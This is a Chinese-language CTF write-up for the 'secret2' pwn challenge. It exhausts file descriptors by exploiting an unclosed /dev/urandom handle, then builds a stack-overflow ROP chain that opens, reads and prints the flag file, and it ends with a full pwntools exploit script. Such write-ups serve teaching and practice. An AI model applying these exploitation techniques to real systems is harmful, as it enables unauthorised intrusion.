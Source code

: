 # Secret2

### 0x1 分析

看一下安全保护：

```shell
[*] './secret2'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

没有CANARY，而且地址固定。

`main()`

```c
void __fastcall __noreturn main(__int64 a1, char **a2, char **a3)
{
  char ll; // [rsp+10h] [rbp-120h]
  char rand; // [rsp+18h] [rbp-118h]
  char name; // [rsp+20h] [rbp-110h]
  int count; // [rsp+128h] [rbp-8h]
  int i; // [rsp+12Ch] [rbp-4h]

  count = 0;
  my_init();
  self(&name);
  for ( i = 0; i <= 9999; ++i )
  {
    my_write("#           Secret: _____            #", 20);
    get_rand(&rand);
    get_long(&secret);
    if ( !memcmp(&rand, &secret, 8uLL) )
      ++count;
    else
      puts("#================no==================#");
    if ( count > 233 )
    {
      close(0);
      stop(&name);
    }
    puts("#====================================#");
    printf("#  GOOD JOB %4d TIMES TO GAME OVER  #\n", (unsigned int)(233 - count));
    puts("#====================================#");
  }
  puts("Good job 2333-tryto-cat/flag");
  system("/bin//sh");
  exit(0);
}
```

首先会输入名字，然后循环`9999`次来输入`secret`，并通过`get_rand()`取得一个随机数和`secret`比较，如果相同，计数器加一。如果计数器达到`233`，就会关闭`stdin`，然后进入`stop`函数。**如果`9999`次都没有使计数器达到`233`，就会执行`system("/bin//sh");`，但是远程环境这个调用失败了。**

先看一下`get_rand()`

```c
ssize_t __fastcall get_rand(void *rand)
{
  int v1; // eax

  memset(rand, 0, 8uLL);
  v1 = open("/dev/urandom", 0);
  return read(v1, rand, 8uLL);
}
```

这里打开了`/dev/urandom`，但是却没有关闭，这个程序就会循环打开这个文件，而且每次都不关闭。

这里补充一点，就是可以使用 `ulimit -a` 查看用户使用最大文件限制数，一般非`root`用户默认是`1024`:

```shell
➜  secret2 ulimit -a
-t: cpu time (seconds)              unlimited
-f: file size (blocks)              unlimited
-d: data seg size (kbytes)          unlimited
-s: stack size (kbytes)             8192
-c: core file size (blocks)         0
-m: resident set size (kbytes)      unlimited
-u: processes                       7779
-n: file descriptors                1024					<-----here
-l: locked-in-memory size (kbytes)  16384
-v: address space (kbytes)          unlimited
-x: file locks                      unlimited
-i: pending signals                 7779
-q: bytes in POSIX msg queues       819200
-e: max nice                        0
-r: max rt priority                 0
-N 15:                              unlimited
```

如果文件打开数目达到上限，就会在下一次 `open(“/dev/urandom”, 0);` 就会失败，导致 `read(v1, rand, 8uLL);` 读了空数据，我们只需要输入 `\0` 即可通过 `memcmp` 的验证。

然后使计数器就会达到`233`，进入`stop()`，

```c
int __fastcall stop(const void *name)
{
  char s[8]; // [rsp+14h] [rbp-Ch]
  int v3; // [rsp+1Ch] [rbp-4h]

  strcpy(s, "Good Night~");
  memcpy((char *)&v3 + 3, name, 0x100uLL);
  puts("#====================================#");
  puts("#             GAME OVER              #");
  puts("#====================================#");
  my_write("#        BYE BYE~                    #", 18);
  puts(s);
  return puts("@====================================@");
}
```

这里有一个栈溢出可以利用。通过在`name`中写入ROP链，来达到获取`flag`的目的。

但是注意一点，这个时候`stdin`已经关闭，不会输出东西了。所以我们不能通过`system('/bin/sh')`来拿`shell`。

可以构造`open("./flag", 0); read(0, addr, 0x100); puts(addr)`来得到`flag`。

**补充：因为 `close(0)`， `open(“./flag”, 0)` 返回的 `fd` 将为 `0`。**

#### 关键步骤调试

断点断在`stop()`的`memcpy()`处，准备栈溢出：

<img src="截屏2020-05-24上午2.29.36.png" alt="截屏2020-05-24上午2.29.36" style="zoom:50%;" />

单步执行后：栈空间被修改。

<img src="截屏2020-05-24上午2.32.19.png" alt="截屏2020-05-24上午2.32.19" style="zoom:50%;" />

### 0x2 EXP

```python
#! /usr/bin/python
#-*- coding: utf-8 -*-
from pwn import *
 
context.terminal = ['tmux', 'splitw', '-h']
context(arch = 'amd64' , os = 'linux', log_level='debug')

p = process('./secret2')
elf = ELF('./secret2')
# p = remote('183.129.189.60', 10052)
pop_rdi_ret = 0x000000000040161b
pop_rsi_r15_ret = 0x0000000000401619
flag = 0x00000000004021df

def debug(p, cmd):
  gdb.attach(p, cmd)

def name(payload):
  p.sendafter("What's your name?", payload)

def passwd():
  p.sendafter('Secret:', '\0')

# gdb.attach(p, '\n')
# pause()

# payload = 'a' * 9
# payload += p64(pop_rdi_ret) + p64(flag) + p64(pop_rsi_r15_ret) + p64(0) + p64(0) + p64(elf.plt['open'])
# payload += p64(0x40160E)+ p64(0) + p64(0) + p64(1) + p64(elf.got['read']) + p64(elf.bss() + 0x500) + p64(0) + p64(0)
# payload += p64(0x4015F8)
# payload += '\x00' * 0x38
# payload += p64(pop_rdi_ret) + p64(elf.bss()  + 0x500) + p64(elf.plt['puts'])

payload = "a" * 0x9
payload += flat([pop_rdi_ret, 0x4021DF, pop_rsi_r15_ret, 0, 0, elf.plt['open']])
payload += flat([0x40160E, 0, 0, 1, elf.got['read'], 0, elf.bss() + 0x500, 0x100])
payload += flat([0x4015F8, 0, 0, 0, 0, 0, 0, 0])
payload += flat([pop_rdi_ret, elf.bss() + 0x500, elf.plt['puts']])


name(payload)
try:
  for i in range(9999):
    passwd()
  p.interactive()

except:
  p.interactive()
  p.close()
```

### 0x3 Reference

[Play with file descriptor(Ⅲ)](http://m4x.fun/post/play-with-file-descriptor-3/)